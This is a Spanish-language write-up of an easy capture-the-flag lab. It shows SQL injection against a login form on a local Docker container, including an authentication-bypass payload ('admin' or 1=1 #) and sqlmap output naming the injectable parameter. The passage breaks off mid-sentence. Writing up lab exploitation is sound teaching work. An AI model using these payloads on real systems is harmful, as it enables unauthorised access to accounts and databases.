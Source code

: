 ¿Fácil verdad? Pues lo mejor es que parece que al terminar el contenedor se autodestruye, con lo que nuestro espacio de trabajo vuelve a quedar totalmente liberado del contenedor. 


## Toma de contacto
Visito la web que se aparece en la IP de la máquina desplegada http://172.17.0.2. Ante nostros aparece un formulario "User" "Password". 

Como el reto dice que es muy fácil vamos a probar inyecciones sql sencillitas siempre mirando como se comporta la web, en el navegador. 

Comienzo con una inyección típica


>'admin --


El resultado producido es el siguiente

``` shell
 SQLSTATE[42000]: Syntax error or access violation: 1064 You have an error in your SQL syntax; check the manual that corresponds to your MariaDB server version for the right syntax to use near 'admin --' AND passwd = ''admin --'' at line 1 
```
La primera pista que obtenemos es que efectivamente, la autenticación se valida en el backend, interviene en el proceso la base de datos. Además no menos importante es ver que el problema devuelto es la sintaxis incorrecta de nuestra query. 
Podemos ajustarla para que se inyecte correctamente?

## Explotación 

Después de probar un ratito podemos encontrar una inyección **boolean-based blind***   
>admin' or 1=1 #

Si bien hay veces que es bastante sencillo utilizar herramienta automáticas como SQLmap. 

``` shell
POST parameter 'name' is vulnerable. Do you want to keep testing the others (if any)? [y/N] N
sqlmap identified the following injection point(s) with a total of 308 HTTP(s) requests:
---
Parameter: name (POST)
    Type: boolean-based blind
    Title: OR boolean-based blind - WHERE or HAVING clause (MySQL comment)
    Payload: name=-5415' OR 4988=4988#&password='admin --&submit=
---
[19:06:39] [INFO] the back-end DBMS is MySQL
web server operating system: Linux Ubuntu 22.04 (jammy)
web application technology: PHP, Apache 2.4.52
back-end DBMS: MySQL (MariaDB fork)
[19:06:39] [INFO] fetched data logged to text files under '/home/pablo/.local/share/sqlmap/output/172.17.0.2'

[*] ending @ 19:06:39 /2025-08-21/
```
Ahora al introducir el payload nos muestra los siguiente
